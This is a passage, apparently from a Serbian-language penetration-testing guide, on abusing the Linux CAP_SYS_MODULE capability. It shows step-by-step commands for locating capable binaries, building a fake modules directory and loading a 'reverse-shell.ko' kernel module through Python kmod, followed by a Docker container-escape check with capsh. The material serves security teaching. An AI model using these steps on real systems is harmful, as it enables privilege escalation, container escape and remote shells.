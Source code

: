 **Primer sa binarnim fajlom**

U sledećem primeru binarni fajl **`python`** ima ovu sposobnost.

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_module+ep
```

Podrazumevano, **`modprobe`** komanda proverava listu zavisnosti i mapne fajlove u direktorijumu **`/lib/modules/$(uname -r)`**.\
Da bismo iskoristili ovo, kreirajmo lažni **lib/modules** folder:

```bash
mkdir lib/modules -p
cp -a /lib/modules/5.0.0-20-generic/ lib/modules/$(uname -r)
```

Zatim **kompajlirajte kernel modul koji možete pronaći u donjem primeru i kopirajte** ga u ovaj folder:

```bash
cp reverse-shell.ko lib/modules/$(uname -r)/
```

Na kraju, izvršite potreban Python kod za učitavanje ovog jezgračkog modula:

```python
import kmod
km = kmod.Kmod()
km.set_mod_dir("/path/to/fake/lib/modules/5.0.0-20-generic/")
km.modprobe("reverse-shell")
```

**Primer 2 sa binarnim fajlom**

U sledećem primeru binarni fajl **`kmod`** ima ovu sposobnost.

```bash
getcap -r / 2>/dev/null
/bin/kmod = cap_sys_module+ep
```

Što znači da je moguće koristiti komandu **`insmod`** za umetanje jezgrovnog modula. Sledite primer ispod da biste dobili **obrnuto ljusku** zloupotrebljavajući ovu privilegiju.

**Primer sa okruženjem (Docker izlazak iz okvira)**

Možete proveriti omogućene sposobnosti unutar Docker kontejnera koristeći:

```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
